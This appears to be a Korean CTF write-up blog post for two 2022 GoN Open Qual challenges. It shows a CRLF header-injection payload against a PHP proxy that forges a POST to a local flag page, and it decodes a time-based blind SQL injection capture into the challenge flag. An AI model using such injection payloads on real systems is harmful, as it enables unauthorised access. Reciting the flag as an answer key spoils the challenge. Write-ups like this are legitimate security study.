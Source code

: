 ```yaml
---
title: 2022 Fall GoN Open Qual CTF
date: 2022-09-02 10:42  +0900
categories: [Hacking, CTF]
tags: [2022 Fall GoN Open Qual CTF, API PORTAL, sleepingshark]
---
```


## API PORTAL (web)
<hr style="border-top: 1px solid;"><br>

먼저 공격을 진행하기 전에 중요한 코드를 살펴보면 다음과 같다.

<br>

```php
case "net/proxy/get":
      $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"]));
      break;
case "net/proxy/post":
      $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"])); //TODO: implement POST data
      break;
```

<br>

index.php 페이지에서 action 파라미터로 값을 받는데, 여기에는 입력할 수 있는 다양한 페이지들이 있다.

세부적으로 설명하기에는 많기에 취약점이 터지는 부분은 위의 코드를 참조하여 ```net/proxy/post``` 페이지에서 페이로드를 넣어줄 수 있다.

최종적으로 우리는 flag의 페이지에 접속을 해야 하는데, 이 페이지는 로컬에서 접속해야 하며, 특정한 POST 값을 보내줘야 한다.

이러한 조건이 충족되었을 때, 어느 파일에 flag를 저장해주는데, 이 파일은 우리가 생성해줄 수 있으므로 설명은 생략한다.

<br>

```php
<?php
//TODO: Change to php-curl

$url = "http://".$param[0]; //TODO: support ssl context
$ip = $param[1];
$referer = $param[2];

$header = "User-Agent: API Portal Proxy\r\n";
$header .= "X-Forwarded-For: {$ip}\r\n";
$header .= "X-Api-Referer: {$referer}";

$ctx = stream_context_create(array(
    'http' => array(
        'method' => 'POST',
        "content" => "", //TODO: implement
        'header' => $header
    )
));

die(file_get_contents($url, null, $ctx));
```

<br>

위의 코드가 ```net/proxy/post``` 페이지 소스코드이다.

우리의 입력값이 들어가는 부분은 url 값뿐인데, 이 값이 어디 들어가는가?

우리의 입력값이 들어가는 부분은 url 말고도 ```$_SERVER["REQUEST_URI"]```가 있다.

이 변수는 현재 페이지에서 도메인을 제외한 주소 값을 가져와 주는 변수이다.

이 값이 들어가는 부분은 ```$referer``` 부분이다.

여기서  CRLF 취약점이 발생한다.

<br>

주의할 점은 url 값을 입력할 때, 에러가 나는 것을 방지하기 위해 url 부분에는 response를 받을 드림핵 requestbin 주소를 넣어준 뒤 ```&```으로 구분을 해줌으로써 에러를 없애줄 수 있다.

그래서 확인해보면 ```?url=dreamhack.request.bin&%0d%0aUser-Agent:%20TEST%0d%0a```를 보내주면 User-Agent 값에 TEST가 추가되는 것을 알 수 있다.

<br>

따라서 우리가 얻어야 할 플래그 페이지에 있는 조건에 맞춰서 페이로드를 보내주면 다음과 같다.
: ```net/proxy/post&url=localhost?action=flag/flag&%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2027%0d%0a%0d%0amode=write%26dbkey=test%26key=a```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## sleepingshark (forensic)
<hr style="border-top: 1px solid;"><br>

이 문제는 사실상 웹 문제라고 생각되는데, 패킷을 보면 HTTP 스트림에 대해서 가져와서 보면 Blind + Time SQL injection 쿼리를 보내는 것을 알 수 있다.

쿼리는 값이 True일 때, 3초간 Sleep을 한다는 코드를 보냈다.

그래서 패킷을 하나씩 다 보면서 3초 후에 응답을 받은 값들을 찾아내서 모두 찾은 다음 이어서 출력해주면 된다.

<br>

```javascript
flag = String.fromCharCode(71,111,78,123,84,49,109,69,95,66,52,115,51,100,95,53,81,76,95,73,110,106,51,99,55,105,48,110,95,119,73,55,104,95,80,99,52,112,125)

console.log(flag)

/*
3 -> 78
4 -> 123
5 -> 84
6 -> 49
7 -> 109
8 -> 69
9 -> 95
10 -> 66
11 -> 52
12 -> 115
13 -> 51
14 -> 100
15 -> 95
16 -> 53
17 -> 81
18 -> 76
19 -> 95
20 -> 73
21 -> 110
22 -> 106
23 -> 51
24 -> 99
25 -> 55
26 -> 105
27 -> 48
28 -> 110
29 -> 95
30 -> 119
31 -> 73
32 -> 55
33 -> 104
34 -> 95
35 -> 80
36 -> 99
37 -> 52
38 -> 112
39 -> 125
*/
```

<br><br>
<hr style="border: 2px solid;">
<br><br>
